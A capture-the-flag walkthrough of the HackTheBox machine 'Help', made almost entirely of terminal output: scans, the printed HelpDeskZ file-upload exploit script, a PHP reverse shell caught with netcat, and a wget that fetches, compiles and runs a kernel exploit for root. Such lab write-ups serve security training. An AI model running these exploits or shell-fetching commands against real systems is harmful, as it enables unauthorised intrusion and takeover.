 ```yaml
---
title: "HackTheBox - Help"
date: 2010-01-01T01:01:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
---
```


[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](http://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)

root@kali:~# nmap -sV -sC 10.10.10.121  
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-10 14:02 CEST  
Nmap scan report for 10.10.10.121  
Host is up (0.027s latency).  
Not shown: 997 closed ports  
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
| 2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)  
| 256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)  
|_ 256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)  
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Apache2 Ubuntu Default Page: It works  
3000/tcp open http Node.js Express framework  
|_http-title: Site doesn't have a title (application/json; charset=utf-8).  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 14.88 seconds  
root@kali:~# gobuster -w /usr/share/wordlists/dirb/common.txt -u 10.10.10.121 -t 50

=====================================================  
Gobuster v2.0.1 OJ Reeves (@TheColonial)  
=====================================================  
[+] Mode : dir  
[+] Url/Domain : http://10.10.10.121/  
[+] Threads : 50  
[+] Wordlist : /usr/share/wordlists/dirb/common.txt  
[+] Status codes : 200,204,301,302,307,403  
[+] Timeout : 10s  
=====================================================  
2019/06/10 14:04:10 Starting gobuster  
=====================================================  
/.htpasswd (Status: 403)  
/.htaccess (Status: 403)  
/.hta (Status: 403)  
/index.html (Status: 200)  
/javascript (Status: 301)  
/server-status (Status: 403)  
/support (Status: 301)  
=====================================================  
2019/06/10 14:04:16 Finished  
=====================================================

root@kali:~# searchsploit helpdeskz  
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
Exploit Title | Path  
| (/usr/share/exploitdb/)  
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
HelpDeskZ 1.0.2 - Arbitrary File Upload | exploits/php/webapps/40300.py  
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download | exploits/php/webapps/41200.py  
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
Shellcodes: No Result  
root@kali:~# searchsploit -m exploits/php/webapps/40300.py  
Exploit: HelpDeskZ 1.0.2 - Arbitrary File Upload  
URL: https://www.exploit-db.com/exploits/40300  
Path: /usr/share/exploitdb/exploits/php/webapps/40300.py  
File Type: troff or preprocessor input, ASCII text, with CRLF line terminators

Copied to: /root/40300.py

import hashlib  
import time  
import sys  
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:  
print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])  
sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]  
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 600):  
plaintext = fileName + str(currentTime - x)  
md5hash = hashlib.md5(plaintext).hexdigest()

url = helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'  
response = requests.head(url)  
if response.status_code == 200:  
print "found!"  
print url  
sys.exit(0)

print "Sorry, I did not find anything"

root@kali:~# python 40300.py http://10.10.10.121/support/ php-reverse-shell.php  
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit  
found!  
http://10.10.10.121/support/uploads/tickets/551a9079298f06e43893d9d6392bc80e.php

root@kali:~# cd Downloads/  
root@kali:~/Downloads# ls  
44298.c encrypt-pdf.py index.html irked.jpg pass.txt token token.pdf.enc  
root@kali:~/Downloads# python -m SimpleHTTPServer 80  
Serving HTTP on 0.0.0.0 port 80 ...  
10.10.10.121 - - [10/Jun/2019 14:32:06] "GET /44298.c HTTP/1.1" 200 -

root@kali:~# nc -lnvp 1234  
listening on [any] 1234 ...  
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.121] 57700  
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
05:22:33 up 2:15, 0 users, load average: 0.00, 0.00, 0.00  
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT  
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)  
/bin/sh: 0: can't access tty; job control turned off  
$ cd /home  
$ ls  
help  
$ cd help  
$ ls -alh  
total 76K  
drwxr-xr-x 7 help help 4.0K Jan 11 06:07 .  
drwxr-xr-x 3 root root 4.0K Nov 27 2018 ..  
-rw-rw-r-- 1 help help 272 Jan 11 06:17 .bash_history  
-rw-r--r-- 1 help help 220 Nov 27 2018 .bash_logout  
-rw-r--r-- 1 root root 1 Nov 27 2018 .bash_profile  
-rw-r--r-- 1 help help 3.7K Nov 27 2018 .bashrc  
drwx------ 2 help help 4.0K Nov 27 2018 .cache  
drwxr-xr-x 4 help help 4.0K Jun 10 03:07 .forever  
-rw------- 1 help help 442 Nov 28 2018 .mysql_history  
drwxrwxr-x 2 help help 4.0K Nov 27 2018 .nano  
drwxrwxr-x 290 help help 12K Jan 11 05:53 .npm  
-rw-r--r-- 1 help help 655 Nov 27 2018 .profile  
-rw-rw-r-- 1 help help 66 Nov 28 2018 .selected_editor  
-rw-r--r-- 1 help help 0 Nov 27 2018 .sudo_as_admin_successful  
-rw-rw-r-- 1 help help 225 Dec 11 01:53 .wget-hsts  
drwxrwxrwx 6 root root 4.0K Jan 11 05:53 help  
-rw-rw-r-- 1 help help 946 Nov 28 2018 npm-debug.log  
-rw-r--r-- 1 root root 33 Nov 28 2018 user.txt  
$ cat user.txt  
bb8#########ZENSIERT#########6af  
$ uname -a  
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
$ cd /tmp  
$ wget http://10.10.14.27/44298.c  
--2019-06-10 05:32:37-- http://10.10.14.27/44298.c  
Connecting to 10.10.14.27:80... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 6021 (5.9K) [text/plain]  
Saving to: '44298.c'

0K ..... 100% 535M=0s

2019-06-10 05:32:37 (535 MB/s) - '44298.c' saved [6021/6021]

$ gcc -o exploit 44298.c  
$ ./exploit  
whoami  
root  
cat /root/root.txt  
b7f#########ZENSIERT#########b98